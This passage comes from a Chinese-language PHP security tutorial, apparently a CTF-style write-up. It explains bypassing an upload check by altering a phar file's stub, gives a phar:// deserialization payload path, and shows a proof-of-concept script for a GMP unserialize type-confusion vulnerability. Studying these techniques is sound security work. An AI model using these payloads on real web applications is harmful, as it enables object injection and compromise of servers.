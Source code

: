 

注意这里 对phar文件的Stub头的构造，<和？中间加了一个空格绕过了Check类的check检查，这个修改对phar文件没有影响

phar文件识别的标志为`__HALT_COMPILER();?>` 前面可以任意修改，这就可以绕过很多限制。





#### payload

`php://filter/resource=phar://upload/46c01c941bd10a9c3038752f7354f2e8/b1b288ddc6069e3befa40731e382b192.jpeg`





## 0x08 php GMP反序列化类型混淆漏洞

首先我们来看一段测试代码

```php
<?php

class obj
{
    var $ryat;

    function __wakeup()
    {
        $this->ryat = 1;
    }
}

class b{
    var $ryat =1;
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$obj2 = new b;

$obj3 = new stdClass;
$obj3->aa =2;


$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);

$obj4 = new stdClass;

var_dump($x);
var_dump($obj);
var_dump($obj2);    
var_dump($obj3);
var_dump($obj4);

?>
```
